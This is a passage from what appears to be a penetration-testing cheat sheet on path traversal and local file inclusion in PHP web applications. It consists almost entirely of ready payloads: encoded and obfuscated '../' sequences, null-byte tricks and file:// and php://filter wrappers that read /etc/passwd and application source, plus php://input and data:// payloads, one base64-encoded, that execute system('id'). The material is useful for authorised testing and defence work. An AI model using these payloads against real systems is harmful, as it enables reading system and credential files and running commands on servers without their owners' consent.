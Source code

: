```
%252e%252e%252f = ../
%252f = /
```

#### Unicode/UTF-8 Encoding

```
%c0%ae%c0%ae%c0%af = ../
%e0%80%ae%e0%80%ae%e0%80%af = ../
```

### 3. Path Normalization Bypass

```
..././
....//
.././
./././
..//..//
```

### 4. Null Byte Injection (works in older PHP versions)

```
../../../etc/passwd%00
../../../etc/passwd\0
../../../etc/passwd%00.jpg
../../../etc/passwd%2500
```

### 5. Traversal Sequence Variation

```
..../
....\
....//
....\\
..../////
```

### 6. Protocol Exploitation

```
file:///etc/passwd
php://filter/convert.base64-encode/resource=/etc/passwd
```

## Advanced LFI Exploitation

### PHP Wrappers & Filters

```
# Base64 encode to avoid execution and read source
php://filter/convert.base64-encode/resource=index.php

# Read source code without execution
php://filter/read=convert.base64-encode/resource=index.php

# Execute commands
php://input
[POST data: <?php system('id'); ?>]

# Execute from data
data://text/plain,<?php system('id'); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==

```